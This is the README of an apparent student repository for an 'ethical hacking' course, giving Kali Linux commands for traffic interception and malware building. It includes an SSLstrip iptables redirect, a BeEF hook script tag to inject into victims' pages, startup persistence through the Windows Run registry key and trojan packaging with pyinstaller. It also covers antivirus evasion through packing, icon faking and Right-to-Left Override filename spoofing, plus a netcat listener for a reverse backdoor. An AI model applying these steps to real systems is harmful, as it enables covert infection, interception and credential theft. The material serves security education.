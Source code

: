 # Ethical Hacking Course
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.  
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file, BeEF framework for Kali Linux is required. Install it with the following command:  
`sudo apt-get install beef-xss`

If SSLstrip is not provided with your distribution of Kali Linux virtual machine, install it from the original source: [moxie0/sslstrip](https://github.com/moxie0/sslstrip "A tool for exploiting Moxie Marlinspike's SSL \"stripping\" attack.").

## Guidelines

### Operating system

#### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:  
`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:  
`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,  
where the default `<number>` is `0`.

For local testing, use both `INPUT` and `OUTPUT` chain.

To enable a basic HTTP server, type:  
`sudo service apache2 start`

#### Windows
To add an executable to Windows Registry to make the file run on the system start, the following command can be used:  
`reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v <name_of_reg> /t REG_SZ /d <"path_to_exe">`  

### Python
You can terminate all running python programs by typing `killall python` in the terminal.  

On Windows, while having both Python 2 and 3 installed, we can force to run either version by running:  
`py -<version> <name_of_script_file>`  
where `<version>` can be '2' or '3'.

### BeEF
The code we want to inject into our victim is:  
`<script src="http://<IP>:3000/hook.js"></script`,  
where `<IP>` is the IP of your host server containing *hook.js*.

If you are using a HTTP server, make sure insert the code snippet above
into */var/www/html/index.html*.

### SSLstrip
To use SSLstrip, use the following command to enable it in *iptables*:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

This makes so that all traffic coming to port 80, which is the default port of HTTP websites,
will instead be redirected to port 10000, which is the port the SSLstrip tool uses.

In order to use packet-modifying tools together with SSLstrip, they must be configured to watch
for port 10000 instead of 80 and commands below need to be entered into Linux shell:

`iptables -I INPUT -j NFQUEUE --queue-num <number>`  
`iptables -I OUTPUT -j NFQUEUE --queue-num <number>`

### Executable files

#### Converting scripts into executables
It's important to note we focus on creating Windows executables, since for both Linux and macOS,
the problem becomes trivial, since both operating systems have Python installed by default,
therefore allowing us to directly run Python scripts.
Another problem is that on Linux, obfuscating such executable file is almost impossible - the user has to grant
"executable" permissions through chmod anyway, meaning user must be pretty techie already.
The good way to send a trojan would be to just send a Python script that the user wants,
with our malicious software at the top of it. The user *still* could just check our source code though.
On macOS however, it's easier to deal with concealing the file since there are no file extensions displayed.  
Despite all those differences between systems, pyinstaller should work on each one of them anyway.
##### On Windows
In order to package Python scripts into executable files, you need to have "pyinstaller" installed
 and you have to run the following command:  
`pyinstaller <script_name.py> --onefile --noconsole`  
* You might need to use a path to pyinstaller instead, if it's not added to PATH.  
* `--onefile` argument ensures all the required libraries and files are put into **single** executable.  
* `--noconsole` argument disables console, so when we run the program, no terminal shows up. Please note that some
Python scripts may require "stdin", "stdout" and "stderr" to be handled properly (it is handled in our program).  
* The created executable can be found in the "dist" folder.  
* To package multiple files together with the Python script (used for creating trojans), use:  
`--add-data "abs/path/to/file;."`  
This is **especially useful** when creating trojans.
The dot means the file will be stored (after running) in a default temp directory.
Can be changed to directory of preference.  

##### On Linux
If you need to create .exe file from a Linux machine (not recommended - it's better to do it natively),
you need a Python interpreter in it's Windows version. In order to do that, Wine is required
(should be installed by default on Kali Linux).  
After you've got both Python downloaded and Wine installed, type in the following command:  
`wine msiexec /i <python_installer_file>`  
* `msiexec` argument states that we are using a .msi file.  
* `/i` flag means that we want to install said file.  

After the Python installation has been completed, you can now run the interpreter in Windows version using:  
`wine python.exe -m pip install <library>` while in in `.wine/drive_c` and using `pyinstaller` as `<library>`.  
Just like on Windows, the pyinstaller can be found in `drive_c/PythonXX/Scripts` folder.  
Keep in mind that you need to have installed all the libraries your Python scripts use before you can package them.  
Similarly to Windows, in order to package the scripts, the following command needs to be typed in:  
`wine .wine/drive_c/PythonXX/Scripts/pyinstaller.exe <script_name.py> --onefile --noconsole`  
As you can see, this time we do type the whole path to `pyinstaller.exe`.  
<*I'm not sure if it's needed to, perhaps Wine can also simulate adding exe files to PATH.*>  
If you have multiple Python files used in your program, just remember to package the **main** file.
Pyinstaller will include imported libraries and files accordingly.  

#### Avoiding executables detection
To avoid detection of your .exe files by an Antivirus software, it's recommended to:  
* Use unique source code that possibly might not be yet indexed as malicious.  
* Use a behavior that will trick AV emulation of your code (i.e useless memory allocation, time delay)  

To check whether or not your program is detectable by antiviruses,
you can use services like [NoDistribute](https://nodistribute.com/ "Online virus scanner without results distribution.")
(doesn't share results with AVs' companies)
or [VirusTotal](https://www.virustotal.com/) (shares the results, thus contributing to better IT security).  
Additionally, you can compress your executables to make it even more obfuscated to antiviruses.
Use [UPX](https://github.com/upx/upx "UPX - The Ultimate Packer for eXecutables") for that purpose.  

In order to further our hiding measures, it's recommended to change the icon of our file.
Use [Iconfinder](https://www.iconfinder.com/) to find such icons
and [Easyicon](https://www.easyicon.net/language.en/covert/) to convert them appropriately.
Next, while using pyinstaller, make sure to add `--icon path\to\icon.ico` argument to package .exe with the given icon.  

Last but not least, spoofing the file extension. The trick is based on the character called "Right-to-left Override",
which changes the text orientation to start from right
(this functionality is used by few languages like Hebrew or Arabic).
You can find this character in Characters app on Kali Linux.
This trick can be used like this:  
```text
research-on-human-reflexes.exe
research-on-human-refl‮fdp.exe
```
Remember that such file needs to be compressed into a .zip file or similar,
since direct download will cause this character to be removed in the process.  

## Tips & Tricks
* It seems that *netfilterqueue* does not work on Python 3.x.  
* To listen to incoming connections without using custom listener for reverse_backdoor.py,
you can use `nc -vv -l -p <port_number>`.  
* You can find registries associated with running programs on system startup in:  
`Computer\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`.  
* It's best to find a good, extensive list of potential subdomain names, directories and files
on the web and use it instead of creating your own that most likely won't be as effective.  
* You **should** test your crawler on your own machine (such as Metasploit),
since such action against third-party server is most likely illegal in most of the countries.


